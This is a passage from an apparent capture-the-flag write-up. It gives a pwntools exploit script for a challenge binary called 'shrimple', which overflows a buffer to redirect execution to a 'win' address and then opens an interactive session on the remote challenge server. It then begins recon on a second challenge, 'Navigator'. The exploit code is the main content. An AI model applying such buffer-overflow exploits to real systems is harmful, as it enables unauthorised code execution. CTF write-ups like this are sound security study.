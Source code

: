 
#### exploit

```py
from pwn import *

context.arch='amd64'

#r=process('./shrimple')
r=remote('chal.competitivecyber.club',8884)

DEBUG=input('Debug:y/n'+'\n')

if DEBUG=="y":
    context.log_level = 'debug'
    context.arch = 'amd64'
    context.os = 'linux'
    context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
def p():
    gdb.attach(r)

win=p64(0x0040127d+0x5)


r.sendlineafter(b'>>',b'a'*43+b'\x00')

#p()

r.sendlineafter(b'>>',b'a'*42+b'\x00')

p()

r.sendlineafter(b'>>',b'a'*38+win)

r.interactive()

```

#### pwned!

![image](https://hackmd.io/_uploads/HkO1ChIAC.png)


### Navigator

#### Recon

file:

![image](https://hackmd.io/_uploads/SkE631O0A.png)



checksec:
